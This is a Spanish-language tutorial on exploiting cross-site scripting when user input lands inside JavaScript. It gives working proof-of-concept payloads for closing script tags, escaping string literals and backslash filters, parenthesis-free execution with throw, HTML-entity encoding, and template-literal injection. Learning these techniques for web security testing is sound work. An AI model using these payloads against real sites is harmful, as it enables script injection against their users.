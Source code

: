 # XSS en JavaScript

Cuando el contexto de una vulnerabilidad XSS se encuentra en algún bloque de JavaScript dentro de la respuesta HTML, pueden surgir diversas situaciones que requieren diferentes técnicas de explotación.

## Terminar el script existente

En el caso más simple, es posible cerrar la etiqueta `<script>` que contiene el JavaScript y luego introducir etiquetas HTML que disparen la ejecución de código JavaScript. Por ejemplo:

```html
<script>
  var input = 'controllable data here';
</script>
```

Payload de ejemplo:

```html
</script><img src=1 onerror=alert(document.domain)>
```

## 🪓 Paso a paso: qué hace este payload

### `</script>`:
- Cierra de forma anticipada la etiqueta `<script>` actual.
- Esto rompe el bloque de JavaScript donde estaba la variable `input`.

### `<img src=1 onerror=alert(document.domain)>`:
- Inyecta un elemento HTML (una imagen).
- Le agrega el atributo `onerror`, que es un *event handler*.
- Cuando el navegador no puede cargar la imagen (porque `src=1` no es válido), se dispara el evento `onerror`, que ejecuta `alert(document.domain)`.

---

## ⚙️ ¿Por qué funciona si "rompe" el script anterior?

Porque los navegadores:

1. Primero parsean el **HTML**, y cuando encuentran etiquetas `<script>`, almacenan el código JavaScript.
2. Cuando vos "rompés" la etiqueta `</script>`, el navegador **cierra el script actual** y sigue procesando HTML.
3. Entonces el navegador simplemente interpreta tu `<img>` como parte del HTML, y ejecuta su evento `onerror`.

> Aunque la línea JS `var input = '` queda rota, eso **no bloquea** que se siga procesando lo demás.  
> No todo el archivo HTML se invalida.


## Salir de una cadena de JavaScript

Cuando el contexto está dentro de una cadena JavaScript entre comillas, se puede salir de ella y ejecutar código arbitrario. Es fundamental mantener el resto del código sintácticamente válido.

Ejemplos de payloads:

```javascript
'-alert(document.domain)-'
';alert(document.domain)//
```

Supongamos que hay un código como el siguiente:
```html
<script>
  var input = 'aquí va tu entrada';
</script>
```
Y el servidor incluye tu input dentro de las comillas de esa variable. Si vos inyectás algo como:
```javascript
';alert(document.domain)//
```
Entonces el código se verá así:
```javascript
var input = '';alert(document.domain)//';
```
Esto cierra la cadena original, inyecta el código malicioso y comenta el resto del código para que no genere errores de sintaxis.
### Escapando barras invertidas

Algunas aplicaciones, para evitar `XSS`, intentan proteger las comillas que delimitan la cadena de JavaScript agregando una barra invertida `\` delante. 

Entrada:
```javascript
';alert(document.domain)//
```
Escapada por la app:
```javascript
\';alert(document.domain)//
```
Esto sucede ya que el conjunto de caracteres `\'` se interpreta como una comilla literal, no como el fin de una cadena.

Si los desarrolladores cometieron el error de escapar la comilla pero no la barra invertida `\`, permite al atacante anular la barra invertida agregando otra barra invertida propia.

Ejemplo de payload:
```html
\';alert(document.domain)//
```
Esto quedaría así:
```html
\\';alert(document.domain)//
```
Aquí la primera barra invertida significa que la segunda se interpreta literalmente, y no como un caracter especial. Esto significa que la comilla se interpreta ahora como un terminador de cadena, por lo que el ataque tiene éxito.

## Uso de `throw` para evitar paréntesis

En situaciones donde están filtrados ciertos caracteres como `(` y `)`, se puede usar `throw` con un manejador de errores global:

```javascript
onerror=alert;throw 1
```

Esto llama a `alert(1)` sin necesidad de paréntesis.

## 🔎 ¿Qué hace ese código?

```js
onerror = alert;
throw 1;
```
### 👉 Línea por línea

#### `onerror = alert;`
Asigna la función `alert` al manejador global `onerror`. Cuando ocurra un error, se ejecutará `alert`.

#### `throw 1;`
Lanza una excepción con el valor `1`, lo que dispara el evento `onerror`.

### 🧠 ¿Qué pasa al final?
Como `onerror` apunta a `alert`, el navegador termina ejecutando `alert(1)`. El valor lanzado se usa como argumento, aunque no hayas escrito `alert(1)` directamente.


## Haciendo uso de la codificación HTML

Si el contexto está en un atributo HTML como `onclick`, y la app filtra caracteres como `'`, se puede usar entidades HTML:

```html
<a href="#" onclick="... var input='controllable data here'; ...">
```

Payload codificado:
```html
&apos;-alert(document.domain)-&apos;
```

El navegador decodifica `&apos;` como comillas simples, permitiendo cerrar la cadena e inyectar código.

## XSS en literales de plantilla de JavaScript

Los literales de plantilla se definen con comillas invertidas `` ` `` y permiten interpolación de variables:

```javascript
document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;
```

Si el contexto está dentro de un literal de plantilla, se puede usar:

```javascript
${alert(document.domain)}
```

Esto ejecuta código sin necesidad de romper la plantilla.

## XSS mediante inyección de plantilla del lado del cliente

Frameworks como AngularJS permiten plantillas dinámicas en el cliente. Si la app inyecta datos del usuario sin sanearlos, se pueden inyectar expresiones de plantilla maliciosas para ejecutar JavaScript.

---

Este documento resume técnicas para explotar XSS en contextos de JavaScript, incluyendo scripts embebidos, literales de cadena y plantilla, y atributos HTML. Estas técnicas son clave para evadir filtros y lograr la ejecución de código en aplicaciones vulnerables.


